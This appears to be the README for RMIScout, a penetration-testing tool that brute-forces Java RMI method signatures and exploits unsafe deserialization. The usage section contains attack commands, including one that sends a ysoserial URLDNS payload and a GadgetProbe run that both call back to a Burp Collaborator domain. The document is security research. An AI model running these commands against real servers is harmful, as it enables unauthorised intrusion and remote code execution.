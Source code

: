 <p align="center">
  <img src="assets/RMIScout.png" width=600/>
</p>

#



![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
![Python version](https://img.shields.io/badge/java-8%2b-blue.svg)

### Description

RMIScout performs wordlist and bruteforce attacks against exposed Java RMI interfaces to safely guess method signatures without invocation.

On misconfigured servers, any known RMI signature using non-primitive types (e.g., `java.lang.String`), can be exploited by replacing the object with a serialized payload. This is a fairly common misconfiguration (e.g., VMWare vSphere Data Protection + vRealize Operations Manager, Pivotal tc Server and Gemfire, Apache Karaf + Cassandra)  as highlighted in  [An Trinh's 2019 Blackhat EU talk](https://i.blackhat.com/eu-19/Wednesday/eu-19-An-Far-Sides-Of-Java-Remote-Protocols.pdf).

RMIScout integrates with [ysoserial](https://github.com/frohoff/ysoserial/) and [GadgetProbe](https://github.com/bishopfox/gadgetprobe) to perform deserialization attacks against services incorrectly configuring process-wide serialization filters ([JEP 290](https://openjdk.java.net/jeps/290)).

<p align="center">
  <img src="assets/wordlist_attack.png" width=800/>
</p>

### Motivation

I wanted a tool to do the following tasks:
1. Provide wordlist and text-based bruteforce strategies instead of bruteforcing a 64-bit method hash.
2. Identify RMI methods without invoking them.
3. Provide a simple way to exploit the known issue of unsafe RMI parameter unmarshalling and integrate with ysoserial or payloads implementing `ysoserial.payloads.ObjectPayload`.
4. Integrate GadgetProbe to identify remote classes to help identify relevant software and construct gadget chains.

To start off your search, the included `lists/prototypes.txt` wordlist is a deduplicated wordlist from 15,000 RMI prototypes found in OSS projects across GitHub. Feel free to submit a PR to include more :)

### How it works

To identify but not execute RMI functions, RMIScout uses low-level RMI network functions and dynamic class generation to send RMI invocations with deliberately mismatched types to trigger remote exceptions. All parameters are substituted for a dynamically generated serializable class with a 255-character name assumed to not exist in the remote class path. For example:

Remote Interface:
```
void login(String user, String password)
```
RMIScout will invoke:
```
login((String) new QQkzkn3..255 chars..(), (String) new QQkzkn3..255 chars..())
```
If the class is present this will result in a remote `java.rmi.UnmarshalException` cased by the `ClassNotFoundException` or argument unmarshalling error without invoking the underlying method.

Read a [full technical writeup here](https://know.bishopfox.com/research/rmiscout).

### Usage

```
# Perform wordlist-attack against remote RMI service using wordlist of function prototypes
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>

# Bruteforce using method wordlist and other options
./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 <host> <port>

# Swap object-derived types with the specified ysoserial payload and payload parameter
./rmiscout.sh exploit -s 'void vulnSignature(java.lang.String a, int b)' -p ysoserial.payloads.URLDNS -c "http://examplesubdomain.burpcollaborator.net" -n registryName <host> <port>

# Use GadgetProbe and a known signature to bruteforce classes on the remote classpath
./rmiscout.sh probe -s 'void vulnSignature(java.lang.String a, int b)' -i ../GadgetProbe/wordlists/maven_popular.list -d "examplesubdomain.burpcollaborator.net" -n registryName <host> <port>
```


### Building and Running

Use the included `rmiscout.sh` script to automatically build the project and as a convenient wrapper around `java -jar` syntax:
```bash
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>
```

Alternatively, build the project manually and use traditional `java -jar` syntax:

```bash
# Manually build JAR
./gradlew shadowJar

java -jar build/libs/rmiscout-1.0-SNAPSHOT-all.jar wordlist -i lists/prototypes.txt <host> <port>
```


### Try It out
Run the demo RMI server. Try out the included `demo/wordlist.txt`.
```bash
cd demo
./start.sh
```
### Author

Twitter: [@BumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
